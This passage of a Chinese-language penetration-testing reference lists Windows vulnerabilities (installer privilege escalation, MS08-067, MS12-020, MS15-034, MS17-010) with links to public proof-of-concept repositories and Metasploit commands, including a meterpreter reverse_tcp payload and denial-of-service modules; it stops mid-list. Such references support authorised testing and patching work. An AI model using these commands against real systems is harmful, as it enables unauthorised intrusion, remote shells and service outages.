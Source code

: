 **CVE-2021-41379 && CVE-2021-43883**
- 简述

    Windows Installer 存在权限提升漏洞，该漏洞利用程序通过覆盖 Microsoft Edge 提升服务（elevation_service.exe）DACL，将自身复制到 elevation_service.exe 并执行它以获得提升的权限。本地攻击者可以利用此漏洞获取 SYSTEM 权限。

- POC | Payload | exp
    - [klinix5/InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver)
    - [jbaines-r7/shakeitoff](https://github.com/jbaines-r7/shakeitoff) - Windows MSI Installer LPE (CVE-2021-43883)

**CVE-2022-21882**
- POC | Payload | exp
    - [KaLendsi/CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882) - win32k LPE

---

### 远程漏洞

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**CVE-2017-0143 - CVE-2017-0148 && MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts [ip]
    run
